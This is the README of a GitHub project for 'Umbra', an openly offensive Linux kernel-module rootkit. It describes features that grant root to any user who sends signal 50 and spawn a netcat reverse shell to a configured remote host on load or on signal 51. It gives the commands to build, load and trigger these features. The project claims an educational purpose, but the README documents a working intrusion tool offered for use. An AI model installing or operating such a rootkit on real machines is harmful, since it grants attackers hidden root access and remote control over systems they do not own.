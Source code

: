 ![GitHub release (latest by date including pre-releases)](https://img.shields.io/github/v/release/marsan27/Umbra?include_prereleases)
![Maintainability](https://img.shields.io/static/v1?label=maintainability&message=C&color=green)
![GitHub code size in bytes](https://img.shields.io/github/languages/code-size/marsan27/Umbra)
![GitHub last commit](https://img.shields.io/github/last-commit/marsan27/Umbra)

# Umbra

Umbra (/ˈʌmbrə/) is an experimental LKM rootkit for kernels 4.x and 5.x (up to 5.7) which can be used to spawn a netcat reverse shells to remote hosts and more.

The rootkit is still under development, although the features listed below are already fully operational.

Note: This rootkit has been developed and tested using kernel 5.4.0 and Ubuntu 18.04.

## Features
* Privilege escalation by sending signal 50
* Start netcat reverse shell on module load.
* Spawn netcat reverse shell to chosen remote host by sending signal 51.

More functionalities will come in later updates.

## Disclaimer
This rookit is **purely for educational purposes**. I am not responsible for any damage resulting from its unintended use.

Also bear in mind that Umbra does not incorporate any rootkit hiding or protection mechanisms yet.

**IMPORTANT:** If you are going to test this rootkit in your own machine, I *strongly recommend* to use a VM. 

## Build and install
Remember that you should have a 4.x or 5.x kernel available.
1. Download your kernel header files
```sh
apt install linux-headers-$(uname -r)
```
2.Configure your include path to cover the kernel header directory (usually under /usr/src). If you are using vscode, you can check ```.vscode/c_cpp_properties.json``` for an example on which directories to include.

3. Clone the project
```
git clone https://github.com/marsan27/Umbra.git
cd Umbra
```
4. Build Umbra
```
make
```
1. Load Umbra in the kernel
```
sudo insmod ./umbra.ko
```

## Unloading Umbra
```
sudo rmmod umbra
```

## Usage
### Change current user privileges to root
* Send signal 50 to any PID.
```
kill -50 1
```

### Start reverse netcat shell to IP:PORT
* Set your desired IP and port in CONFIG.H before building the rootkit. By default 127.0.0.1:5888

* Start listening at the remote host.
```
nc -lvp 5888
```
* Send signal 51 to any PID. Umbra will catch it and start the shell.
```
kill -51 1
```
<img src="images/kill51screenshot.png" width = 800/>

Note: Umbra also tries to start the reverse shell on load.


## References
The development of this rootkit involved a substantial amount of research about LKMs and rootkit techniques. The following is an incomplete list of the resources I used:
How to create LKMs:
* https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html

Linux syscall reference:
* https://syscalls64.paolostivanin.com/

Some rootkit references:
* https://xcellerator.github.io/posts/
* https://web.archive.org/web/20160620231623/http://big-daddy.fr/repository/Documentation/Hacking/Security/Malware/Rootkits/writing-rootkit.txt
* https://github.com/f0rb1dd3n/Reptile

## License
This project is licensed under the GPLv2 license. See [LICENSE]([LICENSE](https://github.com/marsan27/Umbra/blob/master/LICENSE)
